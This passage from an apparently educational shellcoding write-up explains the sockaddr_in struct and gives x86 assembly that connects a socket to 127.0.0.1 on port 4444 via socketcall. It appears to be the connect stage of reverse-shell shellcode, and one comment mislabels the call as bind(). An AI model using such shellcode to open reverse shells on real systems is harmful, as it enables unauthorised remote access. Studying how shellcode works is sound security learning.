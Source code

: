 First *hurdle* is the `sockaddr_in` struct, which I've already covered in the 1st assignment:

```cpp
struct sockaddr_in {
  unsigned short      sin_family;
  unsigned short      sin_port;
  struct in_addr      sin_addr;
};

struct in_addr sin_addr {
  unsigned int        s_addr;
}
```

The size of the struct `sockaddr_in` is `0x10` bytes (due to padding).

Follows the assembly code regarding the creation of the aforementioned struct, and the `connect` function:

```nasm
    ; inet_aton("127.0.0.1")
    ;rol ebx, 24
    ;push ebx
    push 0x0100007f
    ;mov [esp], BYTE 127
    
    ; 0x115c -> htons(4444)
    push WORD 0x5c11

    ; 0x0002 -> AF_INET
    mov bl, 2
    push WORD bx

    ; save the pointer to the struct for later
    mov ecx, esp
    
    ; 3rd argument of connect(): size of the struct
    ; push 16
    xor ebx, ebx
    mov bl, 16
    push ebx

    ; 2nd argument of connect(): pointer to the struct
    push ecx

    ; 1st argument of connect(): file descriptor of the server socket
    push esi
    
    ; syscall socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_CONNECT
    mov bl, 3

    ; 2nd argument of socketcall(): pointer to the parameters of bind()
    mov ecx, esp

    int 0x80
```
